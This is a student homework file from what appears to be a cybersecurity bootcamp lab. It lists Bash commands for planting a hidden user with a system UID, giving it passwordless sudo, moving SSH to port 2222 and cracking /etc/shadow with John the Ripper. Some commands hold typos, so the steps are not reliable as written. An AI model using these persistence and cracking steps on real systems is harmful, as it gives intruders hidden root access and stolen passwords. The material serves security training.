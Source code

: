 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. 
    - `sudo adduser sysd`

<img src="sudo_adduser.png"> 

![sudoadduser](.\Images\sudo_adduser.png)

2. Give your secret user a password: 
    - `sudo passwd sysd ` 

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 987 sysd`

4. Give your secret user the same GID:
   - `sudo groupmod -g 987 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo`
   -  `Sysd ALL=(ALL:ALL) NO PASSWD:ALL`

6. Test that `sudo` access works without your password:

    -   `sudo -l`

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    `sudo nano /etc/ssh/sshd_config`

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh `

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222 `

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su` 
    - `john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

